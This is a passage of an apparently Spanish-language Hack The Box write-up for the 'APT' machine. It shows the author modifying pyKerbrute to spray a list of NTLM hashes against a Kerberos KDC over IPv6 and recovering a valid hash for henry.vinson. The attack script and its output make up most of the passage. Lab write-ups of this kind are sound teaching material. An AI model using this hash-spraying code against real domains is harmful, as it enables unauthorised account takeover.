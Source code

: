 <img src="/writeups/assets/img/APT-htb/2.png" alt="">

Me descargo la herramienta y la retoco

```null
git clone https://github.com/3gstudent/pyKerbrute
```

Trabaja por IPV4, así que cambio el tipo de socket para que se comunique por IPV6

En la función principal, introduzco el usuario, dominio, hostname y el diccionario de hashes por el que quiero iterar. Borro todos los parámetros y llamo a la función directamente

```null
if __name__ == '__main__':

    user_realm = 'htb.local'
    user_name = 'henry.vinson'
    kdc_a = 'apt'
    
    f = open("/home/rubbx/Desktop/HTB/Machines/APT/hashesNT", "r")

    for hash_ntlm in f.readlines():
        hash_ntlm = hash_ntlm.strip()

        user_key = (RC4_HMAC, hash_ntlm.decode('hex'))

        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, hash_ntlm)
```

Trabaja por IPV4, así que cambio el tipo de socket para que se comunique por IPV6

Desde nvim, aplico una sustitución

<img src="/writeups/assets/img/APT-htb/3.png" alt="">

Al ejecutarlo, encuentra un hash válido

```null
python2 ADPwdSpray.py
[+] Valid Login: henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb
```
